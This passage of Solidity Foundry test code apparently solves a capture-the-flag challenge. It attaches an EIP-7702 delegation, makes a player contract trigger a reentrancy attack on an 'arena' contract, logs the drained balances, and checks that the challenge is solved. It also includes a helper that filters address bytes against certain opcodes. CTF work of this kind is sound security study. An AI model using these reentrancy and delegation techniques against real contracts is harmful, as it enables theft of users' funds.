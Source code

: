 ```solidity
        );
        vm.attachDelegation(signedDelegation);
        (bool success,) = address(player).call(
            abi.encodeWithSignature("gogogo(address)", address(arena))
        );
        require(success, "Reentrancy failed :(");

        console.log("player arena.balance:", arena.balanceOf(player));
        console.log("chal arena.balance:", arena.balanceOf(address(challenge)));
        console.log("player balance ether:", player.balance);
        console.log(challenge.isSolved());
    }

    function jailbreaker(bytes20 data) internal pure returns (bool) {
        for (uint256 i = 0; i < data.length; i++) {
            uint8 b = uint8(data[i]);
            if (
                (b >= 0xf0 && b <= 0xf2) ||
                (b >= 0xf4 && b <= 0xf5) ||
                (b == 0xff)
            ) {
                return false;
            }
        }
        return true;
    }

    function _doBattle() internal {
        vm.recordLogs();
        _mimicServerSideBattle();
        Vm.Log[] memory logs = vm.getRecordedLogs();
        for (uint i = 0; i < logs.length; i++) {
            Vm.Log memory log = logs[i];
            address player1 = address(uint160(uint256(log.topics[1])));
            address player2 = address(uint160(uint256(log.topics[2])));
            (uint256 winner, uint256 wager) = abi.decode(
                log.data,
                (uint256, uint256)
            );
            console.log("BattleResult:");
            console.log(" - player1:", player1);
            console.log(" - player2:", player2);
            console.log(" - winner: ", winner == 0 ? player1 : player2);
            console.log(" - wager:  ", wager);
        }
    }

    function _isSolved() internal view {
        assertTrue(challenge.isSolved());
    }

    // fake random just for the local tests purpose
    function _rand() internal returns (uint256) {
        _nonce++;
        return
            uint256(
                keccak256(
                    abi.encodePacked(block.timestamp, block.prevrandao, _nonce)
                )
            );
    }

    function _mimicServerSideBattle() internal {
```